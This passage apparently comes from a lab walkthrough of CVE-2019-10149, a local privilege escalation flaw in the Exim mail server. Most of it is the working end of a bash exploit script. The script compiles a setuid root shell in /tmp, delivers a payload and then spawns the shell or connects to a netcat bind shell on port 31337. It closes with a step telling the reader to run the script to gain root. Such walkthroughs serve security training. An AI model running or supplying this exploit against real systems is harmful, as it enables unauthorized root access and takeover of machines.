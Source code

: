      echo "main(){setuid(0);setgid(0);system(\"/bin/sh\");}" >/tmp/pwned.c
     gcc -o /tmp/pwned /tmp/pwned.c 2>/dev/null
     if [ $? -ne 0 ]; then
       echo "Problems compiling setuid shell helper, check your gcc."
       echo "Falling back to the /bin/sh method."
       cp /bin/sh /tmp/pwned
     fi
     echo
     # select and deliver the payload
     echo "Delivering $METHOD payload..."
     PAYLOAD=$PAYLOAD_SETUID
     exploit
     echo
     # wait for the magic to happen and spawn our shell
     echo "Waiting 5 seconds..."
     sleep 5
     ls -l /tmp/pwned
     /tmp/pwned
    # netcat method
    elif [ $METHOD = "netcat" ]; then
     # select and deliver the payload
     echo "Delivering $METHOD payload..."
     PAYLOAD=$PAYLOAD_NETCAT
     exploit
     echo
     # wait for the magic to happen and spawn our shell
     echo "Waiting 5 seconds..."
     sleep 5
     nc -v 127.0.0.1 31337
    # print help
    else
     usage
    fi

Save the above exploitation script as **exploit.sh**.

![the_return_of_the_wizard_cve_2019_10149-6_1.png](https://media.graphassets.com/WJmENVDyQsKKqlbKEXQd)

**Step 7:** Exploit the local privilege escalation (LPE) vulnerability in Exim
to gain a root shell.

Launch the exploitation script saved in the last step:

